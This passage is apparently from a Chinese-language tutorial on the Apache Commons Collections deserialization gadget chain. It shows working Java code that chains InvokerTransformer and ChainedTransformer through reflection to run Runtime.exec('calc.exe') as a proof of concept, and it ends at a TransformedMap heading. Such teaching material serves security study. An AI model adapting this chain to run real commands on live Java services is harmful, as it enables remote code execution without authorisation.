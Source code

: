 ​	理解了一下InvokerTranformer类之后就是构造反射链的过程了。

```
//构造 Runtime.getRuntime().exec("calc.exe") 的过程
InvokerTransformer tran = new InvokerTransformer( "getMethod", new Class[]{
    String.class, Class[].class}, new Object[]{
    "getRuntime", null} );
    
//获得反射的GetRuntime()方法
Method method = (Method) tran.transform( Runtime.class );
//java.lang.Runtime.getRuntime()输出的是一个类

//invoke反射过程，将GetRuntime反射成对象，只有对象才能调用exec函数。
InvokerTransformer tran2 = new InvokerTransformer( "invoke", new Class[]{
    Object.class, Object[].class }, new Object[]{
    null, null} );
//获得Runtime的对象
Runtime run = (Runtime) tran2.transform( method );

//进行exec("calc.exe")的构造
InvokerTransformer tran3 = new InvokerTransformer( "exec", new Class[]{
    String.class}, new Object[]{
    "calc.exe"} );
tran3.transform( run );
```

## ChainedTransformer 反射链的构造

```
//就是利用了for循环，将transformers[i]运行了transform方法。
public T transform(T object) {
    for (final Transformer<? super T, ? extends T> iTransformer : iTransformers) {
        object = iTransformer.transform(object);
    }
    return object;
}
```

利用ChainedTransformer类进行反射链的构造。

```
ChainedTransformer chain = null;
Transformer[] transformers = new Transformer[] { new ConstantTransformer( Runtime.class ),
    	new InvokerTransformer( "getMethod", new Class[]{ String.class, Class[].class},new Object[]{ "getRuntime", null} ),
        new InvokerTransformer( "invoke", new Class[]{ Object.class, Object[].class },new Object[]{ null, null}),
        new InvokerTransformer( "exec", new Class[]{ String.class}, new Object[] { "calc.exe" }) };

chain = new ChainedTransformer( transformers );
chain.transform( Object.class );
```

## TransformedMap
